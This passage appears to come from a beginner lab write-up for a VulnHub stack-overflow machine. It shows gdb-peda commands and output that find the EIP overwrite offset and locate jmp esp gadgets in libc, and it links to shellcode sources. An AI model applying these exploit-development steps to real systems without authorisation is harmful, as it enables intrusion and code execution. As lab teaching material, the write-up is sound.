 The program crashed which is good and `EIP` register is poiting to somewhere in the long string. One byte is actually missing so the offset would be 16. If in the final exploit there is 15 characters as the junk the exploit would break when a shell command is executed.

```bash
gdb-peda$ pattern_offset 0x4341416e
1128350062 found at offset: 15
```

As the offset is now found, a `jmp` call be identified. 

```bash
gdb-peda$ jmpcall
0x56556019 : call eax
0x565560ec : call eax
0x5655613d : call edx
0x56557067 : jmp [eax]
0x56557ff8 : call [ecx]
0x56558067 : jmp [eax]
```

Interestingly finding a `jmp esp` call was not available in the program itself, however, a `jmp esp` call be found in the ***libc*** library. This can be identified as follows:

```bash
gdb-peda$ jmpcall esp libc
0xf7dd0bb1 : jmp esp
0xf7dd4ff7 : jmp esp
0xf7dd7037 : jmp esp
0xf7f3f1b0 : call esp
0xf7f48b87 : call esp
0xf7f48bc3 : call esp
0xf7f48c07 : call esp
0xf7f547db : jmp esp
0xf7f55937 : jmp esp
0xf7f55b77 : call esp
0xf7f55b83 : call esp
0xf7f55c7b : call esp
0xf7f55d3f : call esp
0xf7f55e37 : call esp
0xf7f560f7 : call esp
0xf7f56103 : call esp
0xf7f5627f : jmp esp
0xf7f562f3 : call esp
0xf7f56323 : jmp esp
0xf7f563eb : jmp esp
0xf7f5661b : jmp esp
0xf7f566e3 : jmp esp
0xf7f567e3 : call esp
0xf7f56993 : jmp esp
0xf7f56b13 : jmp esp
--More--(25/141)
```

First address can be used or any other that has a `jmp esp` call. This can be checked by sending the address to the `EIP` register and checking if a `jmp esp` call is done.


[1]: https://www.vulnhub.com/entry/stack-overflows-for-beginners-101,290/	"IntroToStackOverflow"
[2]: https://github.com/longld/peda
[3]: <http://shell-storm.org/shellcode/files/shellcode-399.php>
[4]: <https://www.exploit-db.com/shellcodes/46809>